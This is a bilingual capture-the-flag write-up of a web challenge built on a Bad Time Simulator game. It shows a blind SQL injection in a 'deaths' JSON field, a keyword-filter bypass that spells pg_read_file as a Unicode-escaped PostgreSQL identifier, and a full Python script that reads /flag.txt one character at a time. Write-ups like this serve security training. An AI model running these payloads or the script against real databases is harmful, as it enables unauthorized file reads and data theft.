


<div class="lang-switch" role="tablist" aria-label="Language switch">
  <button class="lang-btn active" role="tab" type="button" data-lang="en" aria-selected="true">EN</button>
  <button class="lang-btn" role="tab" type="button" data-lang="vn" aria-selected="false">VN</button>
</div>

<div class="lang-vn" markdown="1">

> **Flag:** `PTITCTF{uN1c0d3_35c4p3_p0stgr3s_b4d_t1m3_5ql1}`


Thử thách thuộc category **Web** trong vòng Chung kết PTITCTF 2026. Đề bài cung cấp một ứng dụng web mô phỏng minigame nổi tiếng *Bad Time Simulator* (trận chiến Sans trong Undertale) được dựng bằng HTML5 Canvas và Construct 2, kết hợp với backend xử lý số lượt tử trận (death counter) kết nối tới cơ sở dữ liệu PostgreSQL.

Mục tiêu là khai thác endpoint thống kê lượt chơi để trích xuất nội dung tệp cờ `/flag.txt` lưu trên máy chủ lưu trữ database.

---

## Sơ đồ luồng khai thác (Solve Flow)



---

## Bước 1: Khảo sát ứng dụng và xác định điểm tiêm mã (Injection Point)

Khi trải nghiệm game, mỗi khi người chơi mất máu và chết, client Construct 2 sẽ gửi một HTTP POST request lên backend API để cập nhật dữ liệu:

```http
POST /count HTTP/1.1
Host: 144.79.188.39:47004
Content-Type: application/json

{"deaths": 1}
```

Phản hồi từ máy chủ trả về dạng JSON chứa thông tin về các dòng thoại (dialogue lines) tương ứng với số lần chết của người chơi:

```json
{"lines": ["geez, you really like swinging that thing, huh?", "..."]}
```

Khi thử nghiệm truyền các giá trị boolean vào trường `deaths`:
* Gửi `{"deaths": "1 AND 1=1"}`: Máy chủ trả về HTTP 200 kèm danh sách `lines`.
* Gửi `{"deaths": "1 AND 1=2"}`: Máy chủ trả về HTTP 200 nhưng danh sách `lines` trống rỗng `[]`.
* Gửi `{"deaths": "1' OR '1'='1"}`: Gặp lỗi cú pháp SQL hoặc trả về rỗng.

Điều này chứng minh câu truy vấn SQL ở backend được nối chuỗi trực tiếp mà không dùng Prepared Statements, có dạng:
```sql
SELECT ... FROM dialogue WHERE death_count = $deaths AND ...
```
Do đó, đây là một điểm tiêm mã **Boolean-based Blind SQL Injection** dạng số nguyên (integer-based).

---

## Bước 2: Phân tích cơ chế lọc (WAF / Keyword Filter) và Kỹ thuật Bypass

Khi thử nghiệm các payload đọc file thông thường của PostgreSQL:
* `(SELECT pg_read_file('/flag.txt'))` $\rightarrow$ Máy chủ lập tức phản hồi HTTP `403 Forbidden`.

Tiến hành fuzzing danh sách từ khóa để xác định quy tắc của bộ lọc:
* Các hàm và tiền tố bị chặn hoàn toàn: `pg_`, `read`, `file`, `pg_read_file`, `pg_read_binary_file`, `lo_import`, `copy`.
* Các hàm phụ trợ được phép hoạt động: `length()`, `substring()`, `ascii()`, `chr()`, `cast()`.

### Kỹ thuật Unicode String Literal trong PostgreSQL
PostgreSQL hỗ trợ chuẩn cú pháp chuỗi Unicode mở rộng bắt đầu bằng `U&`:
* Cú pháp: `U&"string\xxxx"` cho phép giải mã các ký tự Unicode theo mã hex 4 chữ số `\xxxx`.
* Ký tự gạch dưới `_` có mã ASCII trong bảng mã Unicode là `\005f`.

Do đó, tên hàm `pg_read_file` có thể được biểu diễn dưới dạng:
$$\text{U\&"pg\textbackslash005fread\textbackslash005ffile"}$$

Khi PostgreSQL nhận câu truy vấn, bộ phân tích từ vựng (lexer) của PostgreSQL sẽ phân giải escape sequence này thành định danh `pg_read_file`. Trong khi đó, bộ lọc WAF ở tầng ứng dụng chỉ kiểm tra chuỗi thô nên không phát hiện được từ khóa bị cấm.

Kiểm tra điều kiện:
```sql
1 AND (length(U&"pg\005fread\005ffile"('/flag.txt')) > 0)
```
Kết quả trả về HTTP 200 và mảng `lines` có dữ liệu $\rightarrow$ Bypass thành công!

---

## Bước 3: Xây dựng Boolean Oracle và Trích xuất Flag

Xây dựng hàm Oracle phân biệt True/False dựa vào độ dài mảng phản hồi JSON:
* **True**: Trạng thái HTTP 200 và `len(json_data['lines']) > 0`.
* **False**: Trạng thái HTTP 200 và `len(json_data['lines']) == 0`.
* **Blocked**: Trạng thái HTTP 403 (cần điều chỉnh payload nếu chạm WAF).

### Thuật toán trích xuất dữ liệu:
1. **Dò độ dài chuỗi**: Sử dụng tìm kiếm nhị phân với điều kiện `length(U&"pg\005fread\005ffile"('/flag.txt')) > mid` trong khoảng $[1, 300]$.
2. **Dò từng ký tự**: Với mỗi vị trí $pos$ từ $1$ đến $length$:
   * Kiểm tra `ascii(substring(U&"pg\005fread\005ffile"('/flag.txt'), pos, 1)) > mid` với khoảng tìm kiếm nhị phân $[0, 127]$.
   * Sau tối đa 7 lần gửi request, xác định chính xác ký tự tại vị trí $pos$.

Kịch bản trích xuất tự động:

```python
import urllib.request, json, sys

BASE = 'http://144.79.188.39:47004'

def post(deaths):
    body = json.dumps({'deaths': deaths}).encode()
    req = urllib.request.Request(BASE + '/count', data=body, method='POST')
    req.add_header('Content-Type', 'application/json')
    try:
        r = urllib.request.urlopen(req, timeout=15)
        return r.status, r.read().decode('utf-8', 'replace')
    except urllib.error.HTTPError as e:
        return e.code, e.read().decode('utf-8', 'replace')
    except Exception:
        return -1, ''

def oracle(cond):
    st, b = post(f"1 AND ({cond})")
    if st == 403:
        return None
    try:
        d = json.loads(b)
        return len(d.get('lines', [])) > 0
    except Exception:
        return None

F = 'U&"pg\\005fread\\005ffile"(\'/flag.txt\')'

# 1. Tìm độ dài chuỗi flag
lo, hi = 1, 300
while lo < hi:
    mid = (lo + hi) // 2
    if oracle(f"length({F})>{mid}"):
        lo = mid + 1
    else:
        hi = mid
length = lo
print(f"[*] Flag Length: {length}")

# 2. Dò từng ký tự ASCII
flag = ""
for pos in range(1, length + 1):
    lo, hi = 0, 127
    while lo < hi:
        mid = (lo + hi) // 2
        if oracle(f"ascii(substring({F},{pos},1))>{mid}"):
            lo = mid + 1
        else:
            hi = mid
    flag += chr(lo)
    print(f"[+] Pos {pos}: {chr(lo)!r} -> Current: {flag}")

print(f"\n[SUCCESS] Flag: {flag}")
```

Chạy kịch bản hoàn tất, chuỗi ký tự flag được tái tạo nguyên vẹn.

---

## Flag

```text
PTITCTF{uN1c0d3_35c4p3_p0stgr3s_b4d_t1m3_5ql1}
```

</div>

<div class="lang-en" markdown="1">

> **Flag:** `PTITCTF{uN1c0d3_35c4p3_p0stgr3s_b4d_t1m3_5ql1}`


The challenge belongs to the **Web** category in the PTITCTF 2026 Finals. The challenge provides a web application that simulates the famous minigame *Bad Time Simulator* (Sans battle in Undertale) built with HTML5 Canvas and Construct 2, combined with a backend that handles death counters connecting to the PostgreSQL database.

The goal is to exploit the play statistics endpoint to extract the content of the flag file `/flag.txt` stored on the database server.

---

## Solve Flow Diagram



---

## Step 1: Survey the application and determine the code injection point (Injection Point)

When experiencing the game, every time the player loses blood and dies, the Construct 2 client will send an HTTP POST request to the backend API to update the data:

```http
POST /count HTTP/1.1
Host: 144.79.188.39:47004
Content-Type: application/json

{"deaths": 1}
```

The response from the server returns JSON containing information about the dialogue lines corresponding to the number of deaths of the player:

```json
{"lines": ["geez, you really like swinging that thing, huh?", "..."]}
```

When testing passing boolean values ​​to the `deaths` field:
* Sending `{"deaths": "1 AND 1=1"}`: Server returns HTTP 200 with list of `lines`.
* Sending `{"deaths": "1 AND 1=2"}`: Server returned HTTP 200 but `lines` list is empty `[]`.
* Sending `{"deaths": "1' OR '1'='1"}`: SQL syntax error or returned null.

This proves that the backend SQL query is directly concatenated without using Prepared Statements, taking the form:
```sql
SELECT ... FROM dialogue WHERE death_count = $deaths AND ...
```
Therefore, this is an integer-based **Boolean-based Blind SQL Injection** code injection point.

---

## Step 2: Analyze the filtering mechanism (WAF / Keyword Filter) and Bypass Technique

When testing PostgreSQL's regular file reading payloads:
* `(SELECT pg_read_file('/flag.txt'))` $\rightarrow$ The server immediately responded HTTP `403 Forbidden`.

Proceed with fuzzing the keyword list to determine filter rules:
* Functions and prefixes are completely blocked: `pg_`, `read`, `file`, `pg_read_file`, `pg_read_binary_file`, `lo_import`, `copy`.
* Allowed auxiliary functions: `length()`, `substring()`, `ascii()`, `chr()`, `cast()`.

### Unicode String Literal Technique in PostgreSQL
PostgreSQL supports standard extended Unicode string syntax starting with `U&`:
* Syntax: `U&"string\xxxx"` allows decoding Unicode characters according to the 4-digit hex code `\xxxx`.
* The underline character `_` has the ASCII code in the Unicode code table as `\005f`.

Therefore, the function name `pg_read_file` can be represented as: $$\text{U\&"pg\textbackslash005fread\textbackslash005ffile"}$$

When PostgreSQL receives the query, the PostgreSQL lexer will resolve this escape sequence into the identifier `pg_read_file`. Meanwhile, the WAF filter at the application layer only checks the raw string so it cannot detect banned keywords.

Check condition:
```sql
1 AND (length(U&"pg\005fread\005ffile"('/flag.txt')) > 0)
```
The result returns HTTP 200 and the `lines` array has the data $\rightarrow$ Bypass successful!

---

## Step 3: Build Boolean Oracle and Extract Flag

Build an Oracle function that distinguishes True/False based on the length of the JSON response array:
* **True**: HTTP status 200 and `len(json_data['lines']) > 0`.
* **False**: HTTP status 200 and `len(json_data['lines']) == 0`.
* **Blocked**: HTTP status 403 (need to adjust payload if WAF hits).

### Data extraction algorithm:
1. **String length detection**: Use binary search with condition `length(U&"pg\005fread\005ffile"('/flag.txt')) > mid` in the range $[1, 300]$.
2. **Detect each character**: For each position $pos$ from $1$ to $length$:
* Check `ascii(substring(U&"pg\005fread\005ffile"('/flag.txt'), pos, 1)) > mid` with binary search range $[0, 127]$. * After a maximum of 7 requests, determine the exact character at position $pos$.

Automatic extraction script:

```python
import urllib.request, json, sys

BASE = 'http://144.79.188.39:47004'

def post(deaths):
    body = json.dumps({'deaths': deaths}).encode()
    req = urllib.request.Request(BASE + '/count', data=body, method='POST')
    req.add_header('Content-Type', 'application/json')
    try:
        r = urllib.request.urlopen(req, timeout=15)
        return r.status, r.read().decode('utf-8', 'replace')
    except urllib.error.HTTPError as e:
        return e.code, e.read().decode('utf-8', 'replace')
    except Exception:
        return -1, ''

def oracle(cond):
    st, b = post(f"1 AND ({cond})")
    if st == 403:
        return None
    try:
        d = json.loads(b)
        return len(d.get('lines', [])) > 0
    except Exception:
        return None

F = 'U&"pg\\005fread\\005ffile"(\'/flag.txt\')'

# 1. Tìm độ dài chuỗi flag
lo, hi = 1, 300
while lo < hi:
    mid = (lo + hi) // 2
    if oracle(f"length({F})>{mid}"):
        lo = mid + 1
    else:
        hi = mid
length = lo
print(f"[*] Flag Length: {length}")

# 2. Dò từng ký tự ASCII
flag = ""
for pos in range(1, length + 1):
    lo, hi = 0, 127
    while lo < hi:
        mid = (lo + hi) // 2
        if oracle(f"ascii(substring({F},{pos},1))>{mid}"):
            lo = mid + 1
        else:
            hi = mid
    flag += chr(lo)
    print(f"[+] Pos {pos}: {chr(lo)!r} -> Current: {flag}")

print(f"\n[SUCCESS] Flag: {flag}")
```

Running the script is complete, the flag string is recreated intact.

---

## Flag

```text
PTITCTF{uN1c0d3_35c4p3_p0stgr3s_b4d_t1m3_5ql1}
```
</div>
